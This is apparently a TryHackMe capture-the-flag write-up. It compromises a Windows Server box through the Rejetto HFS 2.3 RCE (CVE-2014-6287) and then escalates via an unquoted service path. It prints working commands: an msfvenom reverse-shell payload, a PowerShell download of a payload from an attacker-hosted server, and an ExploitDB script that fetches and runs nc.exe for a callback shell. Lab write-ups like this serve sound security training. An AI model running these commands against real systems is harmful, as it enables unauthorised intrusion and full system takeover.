# Steel Mountain - HFS RCE + Unquoted Service Path Privilege Escalation

**Platform:** TryHackMe  
**Difficulty:** Easy  
**OS:** Windows Server 2012 R2  
**Date:** 2026-03-06

---

## Overview

Compromise of the TryHackMe Steel Mountain Windows Server 2012 R2 box by exploiting Rejetto HFS 2.3 macro RCE (CVE-2014-6287) on port 8080 to land a shell as `steelmountain\bill`, then escalating to `NT AUTHORITY\SYSTEM` by planting a malicious `Advanced.exe` in the writable `C:\Program Files (x86)\IObit\` directory to hijack the unquoted service path of `AdvancedSystemCareService9` — completed both via Metasploit and manually using ExploitDB script 39161.py, msfvenom, a Python HTTP server, and netcat.

---

**Target:** `10.65.152.31` (STEELMOUNTAIN — Windows Server 2012 R2 Datacenter, Build 9600)

---

## Attack Chain

### Phase 1: Reconnaissance

An nmap scan with `-Pn` (ICMP blocked on TryHackMe machines) reveals the open ports on the target.



Key findings:
- Port 80: IIS 8.5
- Port 8080: Rejetto HTTP File Server (HFS) 2.3
- Port 3389: RDP
- Port 5985: WinRM

### Phase 2: Web Enumeration

Browsing to port 80 reveals a basic company page for Steel Mountain. The employee of the month image is embedded directly in the page source, revealing the name of a user account.



Port 8080 exposes HFS 2.3, a lightweight file server with a known unauthenticated remote code execution vulnerability (CVE-2014-6287).



---

## Task 2: Exploitation with Metasploit

### Initial Shell

The Metasploit module `exploit/windows/http/rejetto_hfs_exec` exploits a flaw in HFS 2.3's macro parsing to execute arbitrary commands on the target without authentication. A reverse shell is caught as `steelmountain\bill`.



**User flag retrieved:**



### Privilege Escalation via Unquoted Service Path

PowerUp.ps1 is uploaded via Meterpreter and executed to enumerate privilege escalation vectors. It identifies the `AdvancedSystemCareService9` service as vulnerable to an unquoted service path attack.

```
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

Key findings from PowerUp:

- Service: `AdvancedSystemCareService9`
- Path: `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`
- The path contains spaces and is unquoted
- `CanRestart: True`
- `bill` has write permissions to `C:\Program Files (x86)\IObit\`



Because the service path is unquoted and contains a space, Windows will attempt to resolve `C:\Program Files (x86)\IObit\Advanced.exe` before reaching the real binary. A malicious payload placed at that path will execute as SYSTEM when the service restarts.

A reverse shell payload is generated with msfvenom and uploaded to the writable directory:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

The service is stopped and restarted to trigger execution:

```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```



A shell is caught as `NT AUTHORITY\SYSTEM`.



**Root flag retrieved:**



---

## Task 3: Manual Exploitation (No Metasploit)

### Initial Shell Without Metasploit

The same HFS 2.3 vulnerability is exploited manually using exploit script `39161.py` from ExploitDB. The script requires a hosted `nc.exe` binary to establish the reverse shell callback.

Setup on Kali:
```bash
# Edit 39161.py to set attacker IP and port
ip_addr = "<attacker_ip>"
local_port = "4443"

# Host nc.exe via Python HTTP server
sudo python3 -m http.server 80

# Start listener
nc -lvnp 4443

# Run the exploit (requires multiple executions)
python2 39161.py 10.65.152.31 8080
```

The script downloads `nc.exe` from the attacker's HTTP server and executes it on the target, calling back with a cmd shell as `steelmountain\bill`.



### Manual Enumeration

winPEAS is pulled to the target and executed to enumerate privilege escalation vectors. It flags the same `AdvancedSystemCareService9` unquoted service path.

To manually confirm unquoted service paths without automated tools:

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /v "C:\Windows\\" | findstr /v """
```



### Privilege Escalation Without Metasploit

The same unquoted service path technique is used. A payload is generated with msfvenom, hosted on the Python HTTP server, and pulled to the target via PowerShell:

```
powershell -c "Invoke-WebRequest -Uri 'http://<attacker_ip>/Advanced.exe' -OutFile 'C:\Program Files (x86)\IObit\Advanced.exe'"
```

The service is stopped and restarted:

```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

A shell is caught on the netcat listener as `NT AUTHORITY\SYSTEM` with zero Metasploit involvement.



**Root flag retrieved (no Metasploit):**



**Room completed:**



---

## Vulnerability Summary

### CVE-2014-6287 - Rejetto HFS 2.3 Remote Code Execution

HFS 2.3 fails to properly sanitize user-supplied input passed to the macro parsing engine, allowing an unauthenticated attacker to execute arbitrary commands on the server without authentication.

### Unquoted Service Path - AdvancedSystemCareService9

When a Windows service binary path contains spaces and is not enclosed in quotation marks, Windows resolves the path ambiguously. An attacker with write access to any directory in the path can plant a malicious executable that will be executed with the privileges of the service account (SYSTEM in this case) on the next service restart.

**Remediation:** Enclose all service binary paths in quotation marks. Apply principle of least privilege to service installation directories.

---

## Key Takeaways

- HFS 2.3 is a commonly encountered file server in CTF and real-world environments and should always be tested for CVE-2014-6287
- PowerUp.ps1 and winPEAS are complementary tools; running both reduces the chance of missing a privesc vector
- Unquoted service paths are a common Windows misconfiguration, especially in third-party software installations
- The same attack chain can be replicated entirely without Metasploit using ExploitDB scripts, msfvenom, Python HTTP server, and netcat
- `CanRestart: True` is the critical factor that makes the unquoted path exploitable without waiting for a reboot
